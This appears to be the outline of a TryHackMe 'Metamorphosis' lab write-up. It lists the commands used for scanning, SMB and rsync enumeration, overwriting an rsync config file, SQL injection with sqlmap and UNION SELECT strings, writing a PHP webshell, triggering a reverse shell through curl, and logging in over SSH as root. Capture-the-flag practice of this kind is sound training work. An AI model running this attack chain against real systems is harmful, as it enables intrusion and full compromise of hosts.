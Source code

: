 # TryHackMe-Metamorphosis

**Scope:**

- Remote Synchronization (rsync)
- SQL Injection
- Remote Code Execution

**Keywords:**

- Directory Scan & Endpoint Control
- Server Message Block (SMB) Enumeration
- Remote Synchronization (rsync) Enumeration & Forbidden Bypass
- SQL Injection
- Remote Code Execution

**Main Commands:**

- `nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -p- --min-rate 1000 --max-retries 3 $target_ip`
- `wfuzz -u http://metamorphosis.thm/FUZZ -w /usr/share/wordlists/dirb/common.txt --hc 403,404,500,501,502,503 -c -t 50 -L`
- `gobuster dir -u http://metamorphosis.thm/admin/ -w /usr/share/wordlists/dirb/common.txt -b 403,404,500,501,502,503 --random-agent -e -x php,html,txt -t 50`
- `nmap -sV -Pn -T4 -A -O -oN nmap_smb.txt -p 139,445 --script="smb-*" $target_ip`
- `enum4linux-ng -A $target_ip`
- `nmap -sV -T4 -A -O -oN nmap_rsync.txt -Pn -p 873 --script="rsync-*" $target_ip`
- `nc -nv $target_ip 873`
- `rsync -av --list-only rsync://$target_ip/Conf`
- `msfconsole -qx 'use auxiliary/scanner/rsync/modules_list'`
- `rsync -av rsync://$target_ip/Conf metarsync`
- `rsync -av metarsync/webapp.ini rsync://$target_ip/Conf/webapp.ini`
- `sqlmap --random-agent -r sqlmapreq.txt --level 5 --risk 3 --dump --batch -D 'db' -p 'username' --os-shell`
- `sqlmap -r sqlmapreq.txt --file-dest=/var/www/html/hexpayload.php --file-write=./hexpayload.php --batch`
- `curl -sG 'http://metamorphosis.thm/phprce.php' --data-urlencode "cmd=id" | sed 's/\x00/ /g'`
- `curl -sG 'http://metamorphosis.thm/phprce.php' --data-urlencode "cmd=$(cat reversepayload)"`
- `ssh -i rootid root@metamorphosis.thm -p 22`

**System Commands:**

- `getcap -r / 2>/dev/null`
- `ss -tulwn`
- `cat /etc/passwd | grep '/bin/bash'`
- `SHELL=/bin/bash script -q /dev/null`
- `export TERM=xterm`
- `tom" UNION SELECT 1,database(),3 -- -`
- `tom" UNION SELECT 1,@@version,user() -- -`
- `tom" UNION SELECT 1,2,3 -- -`

### Laboratory Environment

[Metamorphosis](https://tryhackme.com/r/room/metamorphosis)
